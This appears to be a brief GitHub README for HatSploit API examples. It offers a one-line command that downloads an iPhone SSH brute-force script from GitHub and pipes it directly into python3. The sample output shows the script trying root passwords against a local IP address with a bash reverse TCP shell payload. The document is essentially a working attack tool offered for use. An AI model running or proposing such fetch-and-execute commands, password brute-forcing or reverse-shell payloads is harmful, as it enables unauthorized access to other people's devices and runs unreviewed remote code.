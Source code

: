 # HatSploit-API

HatSploit API examples.

> `curl https://raw.githubusercontent.com/enty8080/HatSploit-API/main/iphone_ssh_brute.py | python3`

```shell
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   774  100   774    0     0   1552      0 --:--:-- --:--:-- --:--:--  1551
[*] Using default payload unix/generic/bash_reverse_tcp...
[i] HOST ==> 192.168.1.68
[i] PAYLOAD ==> unix/generic/bash_reverse_tcp
 
[*] Exploiting 192.168.1.68...
[*] Attempt to log in as root:dottie...
[!] Exploit module interrupted.
```
